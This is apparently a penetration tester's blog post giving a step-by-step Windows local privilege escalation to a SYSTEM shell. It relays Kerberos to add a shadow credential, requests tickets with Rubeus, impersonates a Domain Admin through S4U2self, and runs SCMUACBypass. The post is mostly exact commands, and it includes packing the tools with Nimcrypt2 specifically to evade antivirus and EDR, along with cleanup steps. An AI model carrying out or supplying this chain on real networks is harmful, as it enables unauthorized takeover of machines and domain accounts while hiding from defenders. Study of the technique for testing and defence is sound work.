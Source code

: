 ## No-Fix Local Privilege Escalation Using KrbRelay & Shadow Credentials

### Background (Inspiration, Overview, & WHY???)
Because who doesn't want a SYSTEM shell? Thanks to [Cube0x0](https://twitter.com/cube0x0), pentesters have been blessed with a tool called [KrbRelay](https://github.com/cube0x0/KrbRelay) that enables the exploitation of a No-Fix LPE via relaying Kerberos authentication. See below for the pre-requisites necessary for this guide:

* Domain Controller without LDAP Signing enforced (default)
* Domain Controller with its own server authentication certificate (for PKINIT authentication)
* Ability to write the msDs-KeyCredentialLink attribute of the target computer account (default)

In addition to KrbRelay, this guide will use [Rubeus](https://github.com/GhostPack/Rubeus) to request a ticket using the shadow credential and to perform a S4U2self request that will impersonate a DA user on the local machine. After the impersonated ticket is imported, we will use the [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) tool by [Tyranid](https://twitter.com/tiraniddo) to spawn a shell as SYSTEM. This process is pretty much identical to what's used in the ShadowCred mode of [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) by [dec0ne](https://twitter.com/dec0ne), so definitely check that out for more information.

### Why not just use KrbRelayUp?
**GOOD QUESTION!** KrbRelayUp is an amazing all-in-one tool. However, I noticed that certain aspects of it don't work as expected after packing it with my reflective loaders to evade AV/EDR. Specifically, I have been unable to get the SCMUACBypass implementation of KrbRelayUp to spawn a SYSTEM shell for me after being packed. 

![reflective loaders](https://i.imgur.com/fh57DT9.png)

This guide will explain how to separate the shadow credential method that KrbRelayUp uses into multiple different steps, giving you a bit more control regarding how each piece executes. For example, we can reflectively load some pieces, and execute others normally. Thanks to [an0n_r0's](https://twitter.com/an0n_r0) [guide](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) regarding exploiting this LPE via RBCD which inspired me to make this guide for the shadow credential process.


---
### Part 0: Preparing our Tools to Evade AV/EDR
As stated earlier, this guide will focus on how to perform the LPE using shadow credentials in a REAL WORLD environment with AV/EDR enabled. Because of this, most of the tools we use will need to be packed with a reflective loader to prevent them from being blocked upon execution. Luckily, my public [Nimcrypt2 PE packer](https://github.com/icyguider/Nimcrypt2) worked very well when I was recently trying to do this against a popular EDR, so that's what I'll be using for this guide.

Below is a list of the tools required for this process that I will be packing to prevent them from being blocked:
* [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Whisker](https://github.com/eladshamir/Whisker)

These tools were packed using Nimcrypt2 with the following arguments:
```
./nimcrypt -f KrbRelay.exe -t csharp -u -e -o NimCKrbR.exe
```

The final tool we will use, [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), will NOT require packing, as it doesn't seem to get blocked from my testing with different AV & EDR solutions. My packers also seem to prevent it from working properly, so I would need to manually modify it to prevent detection if required in the future.

Now that we have all the tools we'll need ready to go, we can transfer them to our target machine and finally begin the LPE process!

---
### Part 1: Adding a Shadow Credential Using KrbRelay
The first step in this process is to add a shadow credential to our local machine using KrbRelay. This is pretty straight forward as it's documented well in the readme for KrbRelay. We will use the first example listed in the KrbRelay readme, substituting in our Domain Controller with LDAP signing disabled for the SPN. After we run this command, we should have a certificate for our shadow credential that can be used to request a Kerberos ticket for the machine account via PKINIT.
```
.\NimCKrbR.exe -spn ldap/virtualdc.testlab.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```
<details>
  <summary>See Screenshot</summary>
  
![krbrelay screenshot](https://i.imgur.com/acnlvYN.png)
</details>

---
### Part 2: Requesting a Machine Account Ticket via PKINIT
Once we have a certificate for our shadow credential, we can use it with Rubeus to request a Kerberos ticket for the machine account via PKINIT. The example command below will use AES256 as the encryption type in cases where RC4 isn't supported and specifies the /nowrap flag so we can more easily copy the resulting ticket. 
```
.\NimCRube.exe asktgt /user:RICHARD-PC$ /certificate:CERTIFICATE /password:PASSWORD /enctype:AES256 /nowrap
```
<details>
  <summary>See Screenshot</summary>
  
![Rubeus request machine account ticket via PKINIT](https://i.imgur.com/s6Mb5ls.png)
</details>

---
### Part 3: Perform S4U2self for Service Ticket Impersonating a DA 
The next part of the process is to use the ticket we obtained in the previous step to perform a S4U2self request to acquire a service ticket for the local machine impersonating a Domain Admin. Technically, any domain user that has local admin rights to the local machine can also be used for the impersonation, but I find just using a DA makes things a bit easier. We will be doing this using Rubeus while making sure to supply the /ptt flag so that the resulting service ticket is automatically imported into the current session.
```
.\NimCRube.exe s4u /self /user:RICHARD-PC$ /impersonateuser:randy /altservice:host/RICHARD-PC /ptt /ticket:TICKET
```
<details>
  <summary>See Screenshot</summary>
  
![Rubeus S4U2Self Request & Service Ticket Import](https://i.imgur.com/jPR02GW.png)
</details>

---
### Part 4: Spawn a SYSTEM Shell via SCMUACBypass
The final step in this process is to use the SCMUACBypass tool to spawn a shell as SYSTEM. This tool will use the imported ticket to authenticate to the local system and create a new service, so it's a good idea to check to make sure everything looks correct using the klist command before executing it. 
```
klist
.\SCMUACBP.exe
```
*BOOM SYSTEM SH3LL ! ! !*

<details>
  <summary>See Screenshot</summary>
  
![Spawn System Shell via SCMUACBypass](https://i.imgur.com/sIeeaWG.png)
</details>

---
### Part 5: Cleaning Up
This step is optional; however it is highly recommended, especially if you plan on repeating this process on the same machine later. The following command can be executed via the SYSTEM shell to clean up the service created by the SCMUACBypass tool:
```
sc delete UacBypassedService
```
Our shadow credential can be removed from the local machine by using the [Whisker](https://github.com/eladshamir/Whisker) tool. We can first run the following command to find its DeviceID:
```
.\NimCWhisker.exe list /target:RICHARD-PC$
```
The shadow credential can then be removed like so:
```
.\NimCWhisker.exe remove /deviceID:DEVICE_ID /target:RICHARD-PC$
```
<details>
  <summary>See Screenshot</summary>
  
![Spawn System Shell via SCMUACBypass](https://i.imgur.com/ZImr4wC.png)
</details>

---
### Part 6: The End!

This concludes the blog post! Please feel free to reach out to me if you have any questions or feedback. Also, I've made a quick video demonstrating this process on a fully up-to-date Windows 10 PC with Defender enabled, so definitely check that out if you're interested!: https://www.youtube.com/watch?v=TDZwx9LERFw

Big thanks to the people below for their amazing work on this topic!

* [Cube0x0](https://twitter.com/cube0x0) for [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Harmj0y](https://twitter.com/harmj0y) for [Rubeus](https://github.com/GhostPack/Rubeus)
* [Tyranid (James Forshaw)](https://twitter.com/tiraniddo) for [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)
* [Dec0ne](https://twitter.com/dec0ne) for [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
* [Elad Shamir](https://twitter.com/elad_shamir) for [Whisker](https://github.com/eladshamir/Whisker)
* [an0n_r0](https://twitter.com/an0n_r0) for [KrbRelay with RBCD Privilege Escalation HOWTO](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
